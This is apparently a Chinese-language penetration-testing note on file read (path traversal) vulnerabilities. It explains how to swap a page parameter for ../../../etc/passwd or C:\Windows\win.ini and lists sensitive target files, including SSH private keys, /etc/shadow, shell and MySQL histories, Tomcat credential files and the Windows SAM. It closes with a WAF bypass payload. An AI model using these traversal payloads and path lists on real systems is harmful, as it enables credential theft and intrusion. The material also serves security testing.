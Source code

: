 # 文件读取漏洞

抓包，看参数是否有获取文件的，比如page=xxx.html，然后进行大小写测试，

如果对大小写敏感，则是linux系统，这时就可以将xxx.html修改为../../../etc/passwd;否则就是Windows系统，

可以修改为C:\Windows\win.ini；然后看是否存在文件读取漏洞；

## 常见路径

### linux

    /root/.ssh/authorized_keys
    /root/.ssh/id_rsa
    /root/.ssh/id_ras.keystore
    /root/.ssh/known_hosts
    /etc/passwd
    /etc/shadow
    /etc/issue 系统版本
    /etc/fstab
    /etc/host.conf
    /var/log/xferlog  FTP会话，记录拷贝了什么文件
    /var/log/cron 计划任务日志
    /etc/(cron.d/|crontab) //这两个也是定时任务文件
    /var/log/secure 用户登录安全日志
    /etc/rc.local 读apache的路径
    /etc/motd
    /etc/sysctl.conf
    /var/log/syslog 记录登陆错误时的密码等信息
    /etc/environment 环境变量配置文件 可能泄露大量目录信息
    /etc/inputrc 输入设备配置文件
    /etc/default/useradd 添加用户的默认信息的文件
    /etc/login.defs 是用户密码信息的默认属性
    /etc/skel 用户信息的骨架
    /sbin/nologin 不能登陆的用户
    /var/log/message 系统的日志文件
    /etc/httpd/conf/httpd.conf 配置http服务的配置文件
    /etc/mtab     包含当前安装的文件系统列表   有时可以读取到当前网站的路径
    /etc/ld.so.conf
    /etc/my.cnf
    /etc/httpd/conf/httpd.conf
    /root/.bash_history    历史操作
    /root/.mysql_history
    /proc/mounts
    /porc/config.gz
    /var/lib/mlocate/mlocate.db
    /porc/self/cmdline
    tomcat/conf/server.xml   tomcat连接数据库的密码配置文件
    tomcat/webapps/ROOT/WEB-INF/classes/database.properties  同上
    tomcat/conf/tomcat-users.xml  tomcat管理员账号密码的配置文件
    /usr/local/apache/conf/httpd.conf
    /var/www/html/apache/conf/httpd.conf
    /home/httpd/conf/httpd.conf
    /usr/local/apache2/conf/httpd.conf
    /usr/local/httpd/conf/httpd.conf
    /etc/apache/httpd.conf
    
### Windows

    C:\windows\system32\drivers\etc\hosts host文件
    C:*\apache-tomcat-7.0.1/conf/context.xml、web.xml、server.xml、tomcat-users.xml
    C:\boot.ini //查看系统版本
    C:\Windows\System32\inetsrv\MetaBase.xml //IIS配置文件
    C:\Windows\repair\sam //系统初次安装的密码
    C:\Program Files\mysql\my.ini //Mysql配置
    C:\Program Files\mysql\data\mysql\user.MYD //Mysqlroot
    C:\Windows\php.ini //php配置信息
    C:\Windows\my.ini //Mysql配置信息
    C:\Windows\win.ini //Windows系统的一个基本系统配置文件
    
## WAF绕过

### ./绕过

举例

    /etc/./././././././passwd
    
